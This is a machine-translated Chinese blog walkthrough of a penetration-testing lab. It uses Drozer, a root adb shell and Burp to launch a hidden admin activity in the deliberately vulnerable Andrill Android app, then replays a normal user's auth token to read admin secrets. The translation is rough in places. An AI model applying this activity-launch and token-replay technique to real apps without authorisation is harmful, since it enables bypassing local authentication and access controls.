 # 深入研究 Android 应用程序——第 1 部分——Drozer+Burp

> 原文：<https://infosecwriteups.com/digging-android-applications-part-1-drozer-burp-4fd4730d1cf2?source=collection_archive---------0----------------------->

你好，在这篇文章中，我将解决[和](https://github.com/Voorivex/Andrill)的第一部分:

> Andrill 是一个 android 移动应用程序，它与一个后端 API 进行交互，该 API 存在各种难度级别的漏洞。

注意:这篇文章适合初学者，在 Andrill 的下一个级别，我将介绍挂钩技术、SSL pin 旁路技术等等。然而，在这里我将介绍一些简单的原理和 Drozer 的快速测试。我将展示渗透测试人员如何从 Android 应用程序中列出`hidden`和`exporeted`活动，并正确调用它们。

![](img/b0e9bf5eb4166e315a81178dcb709134.png)

# 规则

这里有一些规则:

1.  该测试应被视为`black-box`
2.  请`DO NOT`审查源代码(NodeJS 后端或 Android 的 Java)
3.  因此，只有编译后的 APK 和远程服务器才是应该测试的范围。
4.  登录凭证:`james:james`
5.  目标是捕获应用程序流量，阅读管理员说明

# 开始黑客攻击

安装阶段很容易，只需按照说明，浏览服务器的 IP 会给 Android 应用程序:

![](img/d1d8a36574eae1d34288e83875be4ec4.png)

一些初始步骤:

1.  代理 Android box 和服务器之间的打嗝
2.  在安卓盒子里安装安德里尔·APK

之后，运行应用程序将提供一个登录屏幕:

![](img/327d19b8d4d5dd454d8211b5afacca56.png)

通过凭证`james:james`登录将加载以下屏幕:

![](img/e8f5798b5d5a87e648d7894c74857435.png)

Burp 中捕获的相应 HTTP 请求:

```
POST /authenticate HTTP/1.1
Content-Type: application/json
Content-Length: 39
Host: 192.168.1.8:8081
Connection: close
Accept-Encoding: gzip, deflate
User-Agent: okhttp/3.10.0{"password":"james","username":"james"}HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json
Date: Fri, 07 Jun 2019 22:45:35 GMT
Connection: close
Content-Length: 110{"user_id":"3","display_name":"James",**"login_token":"f686a930-8975-11e9-9714-d7315930c699"**,"status":"success"}
```

加载用户内容:

```
POST /back-end HTTP/1.1
**auth_token: f686a930-8975-11e9-9714-d7315930c699**
Content-Type: application/json
Content-Length: 25
Host: 192.168.1.8:8081
Connection: close
Accept-Encoding: gzip, deflate
User-Agent: okhttp/3.10.0{"action":"get_contents"}HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json
Date: Fri, 07 Jun 2019 22:45:35 GMT
Connection: close
Content-Length: 83{"user_contents":"This is a public note every user can see it.","status":"success"}
```

应用程序使用身份验证响应中收到的 login_token。这一阶段有两种方法:

1.  反编译 APK 并在源代码中寻找漏洞
2.  通过 Drozer 分析应用

在本演练中，我选择第二个。

# 德罗泽，快快快

Drozer 有几个功能，我跳过安装等。列出设备:

```
>drozer console devices
List of Bound DevicesDevice ID         Manufacturer         Model                 Software
9a302eb7b9185467  unknown              Samsung Galaxy S6 - 5.0.0 - API 21 - 1440x2560  5.0
```

连接到设备:

```
>drozer console connect
Selecting 9a302eb7b9185467 (unknown Samsung Galaxy S6 - 5.0.0 - API 21 - 1440x2560 5.0)..                    ..:.
           ..o..                  .r..
            ..a..  . ....... .  ..nd
              ro..idsnemesisand..pr
              .otectorandroidsneme.
           .,sisandprotectorandroids+.
         ..nemesisandprotectorandroidsn:.
        .emesisandprotectorandroidsnemes..
      ..isandp,..,rotectorandro,..,idsnem.
      .isisandp..rotectorandroid..snemisis.
      ,andprotectorandroidsnemisisandprotec.
     .torandroidsnemesisandprotectorandroid.
     .snemisisandprotectorandroidsnemesisan:
     .dprotectorandroidsnemesisandprotector.drozer Console (v2.4.4)
dz>
```

以下命令显示安装在电话上的软件包:

```
dz> run app.package.list
...
com.android.providers.settings (Settings Storage)
com.android.captiveportallogin (CaptivePortalLogin)
**com.example.andrill_1 (Andrill-1)**
...
dz>
```

我们的 Andrill 应用程序已经成功加载。获取有关包的信息:

```
dz> run app.package.info -a com.example.andrill_1
Package: com.example.andrill_1
  Application Label: Andrill-1
  Process Name: com.example.andrill_1
  Version: 1.0
  Data Directory: /data/data/com.example.andrill_1
  APK Path: /data/app/com.example.andrill_1-1/base.apk
  UID: 10064
  GID: [3003]
  Shared Libraries: null
  Shared User ID: null
  Uses Permissions:
  - android.permission.INTERNET
  Defines Permissions:
  - None
```

这里，我不打算讨论 Drozer 提供的攻击面，收集所有活动:

```
dz> run app.activity.info -a com.example.andrill_1 -i -u
Package: com.example.andrill_1
  Exported Activities:
    com.example.andrill_1.SplashScreen
      Permission: null
      Intent Filter:
        Actions:
          - android.intent.action.MAIN
        Categories:
          - android.intent.category.LAUNCHER
  **Hidden Activities:**
    com.example.andrill_1.LoginActivity
      Permission: null
    com.example.andrill_1.UserActivity
      Permission: null
    **com.example.andrill_1.AdminActivity**
      Permission: null
    com.example.andrill_1.ServerActivity
      Permission: null
```

正如所看到的，有四个隐藏的活动。`AdminActivity`看起来很有趣。调用活动:

```
dz> run app.activity.start --component com.example.andrill_1 com.example.andrill_1.AdminActivity
**Permission Denial**: starting Intent { flg=0x10000000 cmp=com.example.andrill_1/.AdminActivity (has extras) } from ProcessRecord{37c6394b 2473:com.mwr.dz:remote/u0a65} (pid=2473, uid=10065) not exported from uid 10064
```

由于该活动未导出，因此 Drozer 无法调用该活动。但是，从根 ADB shell 将成功调用:

```
127|root@vbox86p:/ # am start -n com.example.andrill_1/.AdminActivity
Starting: Intent { cmp=com.example.andrill_1/.AdminActivity }
```

就在上面的命令之后，打嗝截获了一个请求:

```
POST /back-end HTTP/1.1
Content-Type: application/json
Content-Length: 29
Host: 192.168.1.8:8081
Connection: close
Accept-Encoding: gzip, deflate
User-Agent: okhttp/3.10.0{"action":"get_admin_secret"}
```

结果是:

```
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json
Date: Fri, 07 Jun 2019 22:52:54 GMT
Connection: close
Content-Length: 58{"reason":"Invalid token was provided.","status":"failed"}
```

添加身份验证令牌:

```
POST /back-end HTTP/1.1
Content-Type: application/json
**auth_token: f686a930-8975-11e9-9714-d7315930c699** Content-Length: 29
Host: 192.168.1.8:8081
Connection: close
Accept-Encoding: gzip, deflate
User-Agent: okhttp/3.10.0{"action":"get_admin_secret"}
```

结果是:

```
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json
Date: Fri, 07 Jun 2019 22:58:52 GMT
Connection: close
Content-Length: 72**{"admin_contents":"Admins secret contents revealed.","status":"success"}**
```

这一部分已经完成，我已经看到一些重要的商业应用程序遭受了提到的缺陷。在一个案例中，一个互联网移动应用程序有一个手指触摸认证，虽然活动可以通过上面提到的方法调用，所以我可以绕过本地认证。请随时留下评论，并为安德里尔水平提出建议。